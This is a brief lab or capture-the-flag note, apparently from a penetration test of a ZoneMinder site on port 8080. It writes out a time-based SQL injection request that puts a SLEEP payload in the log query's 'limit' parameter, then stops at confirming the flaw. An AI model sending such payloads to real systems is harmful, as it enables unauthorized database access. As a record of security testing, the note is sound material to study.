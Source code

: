 
# 8080

There is a zoneminder website:
![](attachment/75c6fad207fc4e33018aac2a3e324a01.png)

`http://192.168.212.52:8080/zm/index.php?view=request&request=log&task=query&limit=100;(SELECT%20*FROM%20(SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434`

We get a return info back:
![](attachment/2d242ee56adca8e1c132311a41f7c5ff.png)

We have SQL injection:![](attachment/7cac5b58a4436ccec9061abc79c921d6.png)

SQLMap required so not done after this.

